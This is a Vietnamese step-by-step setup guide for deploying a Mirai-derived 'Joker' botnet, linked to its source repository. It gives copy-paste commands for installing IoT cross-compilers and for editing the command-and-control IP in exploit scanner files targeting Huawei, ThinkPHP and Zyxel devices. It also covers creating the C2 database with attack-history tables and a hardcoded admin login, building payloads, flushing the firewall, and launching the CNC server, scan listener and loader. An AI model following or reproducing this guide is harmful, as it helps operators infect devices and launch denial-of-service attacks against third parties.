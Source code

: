 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ trên centos
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
rm -rf /usr/local/go; wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz
```
```
sha256sum go1.10.3.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
source ~/.bash_profile
```
```
rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2; 
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
```
```
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
```
```
cd /tmp
wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q
tar -xzf go1.8.3.linux-amd64.tar.gz
mv go /usr/local/go
cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:

```/bot/huawei.c``` (dòng 271)

```/bot/thinkphp.c``` (dòng 277)

```/bot/zyxel_scanner.c``` (dòng 278)

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root

Sao chép & Dán này: 
```
service mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)
